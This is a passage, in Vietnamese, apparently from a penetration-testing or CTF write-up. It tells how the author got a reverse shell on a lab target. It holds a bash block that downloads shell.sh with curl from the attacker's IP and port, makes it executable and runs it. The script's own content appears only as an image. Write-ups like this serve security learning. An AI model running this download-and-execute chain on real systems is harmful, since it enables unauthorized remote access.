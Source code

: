 ![HoangVu](Images/20.png)

- Vì vậy tôi quyết định tải shell và thực hiện trực tiếp trên máy mục tiêu.

- Đầu tiên tạo file `shell.sh` trên máy attacker với nội dung sau:

![HoangVu](Images/21.png)

- Thiết lập python server trên máy attacker và tải shell này về máy mục tiêu, cấp quyền sau đó thực thi.

```bash
curl http://10.21.175.20:4444/shell.sh -o /tmp/shell.sh
chmod +x /tmp/shell.sh
bash /tmp/shell.sh
```

![HoangVu](Images/23.png)

- Chạy shell thành công, tạo được reverse shell.

![HoangVu](Images/22.png)
